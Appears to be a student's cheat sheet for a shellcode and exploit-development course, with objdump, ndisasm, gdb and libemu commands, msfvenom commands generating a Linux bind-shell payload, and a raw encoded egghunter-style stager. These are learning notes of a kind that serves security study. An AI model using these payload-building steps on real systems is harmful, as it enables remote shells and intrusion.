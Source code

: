 
there is no .decode('hex') on Python 3. .decode('hex') uses binascii.unhexlify() on Python 2
>import binascii

>print (binascii.unhexlify(a))

when running with nasm, u are less likely to have weird register states... in the middle of a c program, ebx is gonna be anything.. from _start
check for nulls and bad chars: objdump -d ./execve-stack -M intel

extract shellcode from binary:
> objdump -d ./execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

^^^Pay attention to the number of opcodes printed from null check and adjust the mah=gic string accordingly at "cut -f1-6 -d' '"

Disassemble shellcode: echo -ne "<shellcode>" | ndisasm -u -

Disassemble msfvenom payload: msfvenom -p linux/x86/shell_bind_tcp | ndisasm -u -

Analyse msfvenom shellcode: msfvenom -p linux/x86/shell_bind_tcp --format raw | sctest -vvv -Ss 5000 (verbose and read form STDIN)

Dump msfvenom payload as hex: msfvenom -p linux/x86/chmod FILE=/test.txt R | hexdump -v -e '"\\x" 1/1 "%02x"'

OUtput to a viual file, first: msfvenom -p linux/x86/shell_bind_tcp --format raw | sctest -vvv -Ss 5000 -G shell_bind_tcp.dot
Then: dot shell_bind_tcp.dot -T png -o shell_bind_tcp.png

compile shellcode: 
>gcc shellcode.c -fno-stack-protector -z execstack -o shellcode

get syscall value: 
>cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep access


view location of a variable: 
>print /x <variable> 
OR simply info variables and get them all
examine bytes starting at an address: 
>x/45xb <address>
>break <*&break +X> (* is for break & is address)
OR simply *0x<address>
View contents of variable: 
>x/s <memaddress>


Getting libemu to work when it doesn't:
>git clone https://github.com/buffer/libemu.git
>apt-get install autoconf
>apt-get install libtool
>aclocal -I /usr/share/libtool
>autoheader
>autoreconf -v -i
>./configure --prefix=/opt/libemu; make install
in /bin:
>ln -s /opt/libemu/bin/sctest 

 NOT SLAE but relevant:
 to encode problematic shellcode stager(OSCE):
 
perl -e 'print "\x66\x81\xCA\xFF\x0F\x42\x52\x6A\x02\x58\xCD\x2E\x3C\x05\x74\xF0\x89\xD7\xAF\x75\xF0\xAF\x75\xED\xB8\x90\x50\x90\x50\xFF\xE7"' > exploit.bin
cat exploit.bin | /usr/bin/msfvenom -p - -a x86 --platform windows -e x86/alpha_mixed -f python
